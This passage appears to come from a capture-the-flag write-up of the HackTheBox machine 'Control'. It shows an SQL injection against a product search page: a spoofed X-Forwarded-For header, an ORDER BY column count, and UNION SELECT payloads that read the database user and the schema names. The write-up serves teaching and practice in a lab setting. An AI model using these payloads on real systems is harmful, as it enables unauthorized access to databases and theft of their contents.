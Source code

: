 


We increase the number of columns  in **order by** until get a **mysql error**:

```bash	
POST /search_products.php HTTP/1.1
Host: 10.10.10.167
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.167/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28

productName=' order by 7 -- #
```

<img src="https://raw.githubusercontent.com/dumbx90/dumbx90.github.io/master/assets/img/commons/hackthebox/control/control-order-by-7.png" alt="control-order-by-7" style="zoom:75%;" />



Its clearly we have 06 (six) columns to use for exfiltrate data. To do that we use the reserved words **UNION SELECT**  from **mysql**:

1. Discovery user:

`````php
productName=' union select 1,2,3,4,5,user()-- #
`````

2.  Discovery databases names:

```php
productName=' union select 1,2,3,4,5,group_concat(SCHEMA_NAME SEPARATOR "\n") from INFORMATION_SCHEMA.SCHEMATA -- #
```
